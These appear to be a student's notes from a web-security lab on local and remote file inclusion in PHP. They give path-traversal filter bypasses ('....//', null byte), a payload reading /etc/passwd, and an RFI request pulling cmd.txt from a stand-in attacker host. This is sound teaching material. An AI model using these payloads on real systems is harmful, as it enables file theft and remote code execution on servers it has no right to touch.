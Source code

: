 - Sometimes the developer will filter out `../` which something like an empty string.

We can still bypass this by doing `....//` in which the first `../` will be removed, but the resulting input will still equal `../`.


- Additionally, if the user input is being filtered for the inclusion of `/etc/passwd`, we can bypass this by using a NullByte `%00` at the end of the string.

Ex:

![[Pasted image 20230225225929.png]]
![[Pasted image 20230225225940.png]]


**What if the developer forces the include to read from a defined directory?**

- If the web application asks to supply input that has to be included in a specific directory such as `http://webapp.thm/index.php?file=languages/EN.php`, then we would need to include the directory in the payload:

`?file=languages/../../../../../etc/passwd`

Including the `languages/` directory is key here, in order to exploit what to read.


---
***Remote File Inclusion***

- Technique that allows an attacker to include external files into a vulnerable application.

- Occurs under the same condition of improperly sanitized user input as LFI.

- Attacker will inject an external URL into the PHP `include` function.

***REQUIREMENT***

`allow_url_fopen` needs to be `on`.


- In general, the risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution on the server. Can also cause
	- Sensitive Information disclosure
	- Cross-site Scripting (XSS)
	- Denial of Service (DoS)


![[Pasted image 20230225233329.png]]

- First, an attacker would craft a malicious HTTP request with that injects a malicious URL:

`http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`.

With no input validation, the malicious url `http://attacker.thm/cmd.txt` would pass into the include function.

2. Once the web server receives this, it will send a GET request to the malicious server `attacker.thm` to get this.

3. Then the attackers server would respond to the affected server and provide the content of the `cmd.txt` which likely has malicious PHP code.
